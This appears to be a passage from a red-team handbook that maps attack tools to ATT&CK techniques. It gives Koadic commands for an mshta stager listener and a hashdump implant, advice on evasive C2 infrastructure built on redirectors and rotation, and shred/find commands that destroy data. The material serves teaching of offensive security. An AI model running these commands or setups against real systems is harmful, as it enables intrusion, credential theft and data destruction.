 **Specific ATT&CK Mapping**:
- Empire implements multiple C2 techniques:
  - Application Layer Protocol (T1071)
  - Encrypted Channel (T1573)
  - Various evasion techniques

### Koadic: COM Command & Control

**Koadic** provides COM-based command and control:

```bash
# Start Koadic
./koadic

# Create a listener
use stager/js/mshta
set SRVHOST 192.168.1.100
set SRVPORT 8443
run

# Interact with zombie
zombies
use implant/gather/hashdump
```

**Specific ATT&CK Mapping**:
- Koadic implements various C2 techniques:
  - Web Protocols (T1071.001)
  - COM-based execution (T1559.001)

> **RED TEAM TIP:**
>
> Design a resilient C2 infrastructure with these components:
>
> 1. Multiple frontends (domains, IPs) that appear legitimate
> 2. Redirectors to hide true C2 server locations
> 3. Different protocol options (HTTP, DNS, custom)
> 4. Fallback communication channels
> 5. Automatic infrastructure rotation
>
> This approach ensures operational continuity even if parts of your C2 infrastructure are discovered and blocked.

## Impact Techniques and Tools

Impact techniques represent ways adversaries can disrupt systems and compromise their availability and integrity. Several tools in this book implement these techniques.

### Data Destruction (T1485)

This involves deliberately corrupting or destroying data on target systems.

**Secure Data Wiping**:
```bash
# Overwrite file with random data
shred -uz confidential_file.txt

# Wipe free space
sfill -v /home/user/

# Securely delete directory contents
find /path/to/directory -type f -exec shred -uz {} \;
```
